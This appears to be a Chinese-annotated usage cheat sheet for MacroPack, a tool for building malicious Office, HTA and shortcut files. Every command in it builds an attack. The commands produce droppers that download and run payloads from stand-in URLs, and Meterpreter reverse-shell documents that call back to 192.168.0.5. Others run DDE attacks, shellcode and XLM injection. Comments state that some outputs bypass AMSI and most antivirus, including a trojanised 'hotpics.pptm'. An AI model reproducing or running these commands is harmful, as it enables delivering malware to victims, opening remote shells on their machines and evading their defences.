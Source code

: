 ```powershell
# 选项
-G, --generate=OUTPUT_FILE_PATH. 生成文件。
-t, --template=TEMPLATE_NAME 使用 MacroPack 中已包含的代码模板
-o, --obfuscate 混淆代码（移除空格，混淆字符串，混淆函数和变量名）

# 执行命令
echo "calc.exe" | macro_pack.exe -t CMD -G cmd.xsl

# 下载并执行文件
echo <file_to_drop_url> "<download_path>" | macro_pack.exe -t DROPPER -o -G dropper.xls

# 使用 MacroMeter by Cn33liz 的 Meterpreter 逆向 TCP 模板
echo <ip> <port> | macro_pack.exe -t METERPRETER -o -G meter.docm

# 投放并执行嵌入式文件
macro_pack.exe -t EMBED_EXE --embed=c:\windows\system32\calc.exe -o -G my_calc.vbs

# 混淆 msfvenom 生成的 vba 文件并将结果放入新的 vba 文件。
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.5 -f vba | macro_pack.exe -o -G meterobf.vba

# 混淆 Empire 分发器 vba 文件并生成 MS Word 文档：
macro_pack.exe -f empire.vba -o -G myDoc.docm

# 生成一个包含混淆的投放器（下载 payload.exe 并存储为 dropped.exe）的 MS Excel 文件
echo "https://myurl.url/payload.exe" "dropped.exe" |  macro_pack.exe -o -t DROPPER -G "drop.xlsm"

# 通过动态数据交换（DDE）攻击执行 calc.exe
echo calc.exe | macro_pack.exe --dde -G calc.xslx

# 通过 powershell 使用动态数据交换（DDE）攻击下载并执行文件
macro_pack.exe --dde -f ..\resources\community\ps_dl_exec.cmd -G DDE.xsl

# 专业版：生成一个包含自编码的 x64 逆向 meterpreter VBA 负载的 Word 文件（将绕过大多数杀毒软件）。
msfvenom.bat -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.0.5 -f vba |  macro_pack.exe -o --autopack --keep-alive  -G  out.docm

# 专业版：用逆向 meterpreter 特洛伊木马感染 PowerPoint 文件。宏被混淆和混合以绕过 AMSI 和大多数杀毒软件。
msfvenom.bat -p windows/meterpreter/reverse_tcp LHOST=192.168.0.5 -f vba |  macro_pack.exe -o --autopack --trojan -G  hotpics.pptm

# 专业版：生成一个能够通过 Excel 注入运行 shellcode 的 HTA 有效载荷
echo meterx86.bin meterx64.bin | macro_pack.exe -t AUTOSHELLCODE  --run-in-excel -o -G samples
icepic.hta
echo meterx86.bin meterx64.bin | macro_pack.exe -t AUTOSHELLCODE -o --hta-macro --run-in-excel -G samples\my_shortcut.lnk

# 专业版：XLM 注入
echo "MPPro" | macro_pack.exe -G _samples\hello.doc -t HELLO --xlm --run-in-excel

# 专业版：ShellCode 执行 - 堆注入，替代注入
echo "x32calc.bin" | macro_pack.exe -t SHELLCODE -o --shellcodemethod=HeapInjection -G test.doc
echo "x32calc.bin" | macro_pack.exe -t SHELLCODE -o --shellcodemethod=AlternativeInjection --background -G test.doc

# 专业版：更多 shellcode
echo x86.bin | macro_pack.exe -t SHELLCODE -o -G test.pptm –keep-alive
echo "x86.bin" "x64.bin" | macro_pack.exe -t AUTOSHELLCODE -o –autopack -G sc_auto.doc
echo "http://192.168.5.10:8080/x32calc.bin" "http://192.168.5.10:8080/x64calc.bin" | macro_pack.exe -t DROPPER_SHELLCODE -o --shellcodemethod=ClassicIndirect -G samples\sc_dl.xls
```
